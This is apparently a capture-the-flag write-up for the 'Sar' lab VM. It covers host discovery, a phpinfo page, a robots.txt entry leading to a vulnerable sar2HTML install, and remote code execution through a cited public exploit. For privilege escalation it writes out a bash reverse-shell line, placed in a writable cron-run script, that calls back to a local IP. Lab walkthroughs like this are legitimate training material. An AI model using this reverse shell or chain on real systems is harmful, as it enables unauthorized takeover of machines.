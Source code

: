 # Sar

`netdiscover` found the VM on this IP

```
192.168.1.145
```

## Port 80

Port scan reveals port 80 is running apache web server.

The home page is just default apache site.

### Php INFO

We found PHP info at `/phpinfo.php`

### robots.txt

We found an entry: `sar2HTML` in robots.txt

![[Pasted image 20220703234609.png]]

### sar2HTML

The software version is displayed on home page.

![[Pasted image 20220703234815.png]]

we found [EDB-49344](https://www.exploit-db.com/exploits/49344) which gives us RCE as `www-data`

## Privesc
`linpeas.sh` found an intersting entry in `crontab`

![[Pasted image 20220704010544.png]]

Unfortunately, we can't modify `finally.sh`. But the contents of `finally.sh`

```
#!/bin/sh

./write.sh

```

leads us to a file we can modify: `write.sh`

we replace the existing file with a malicious script:

```
#!/bin/bash

bash -i >& /dev/tcp/192.168.1.109/443 0>&1
```


## Root flag
And we got root!

![[Pasted image 20220704010756.png]]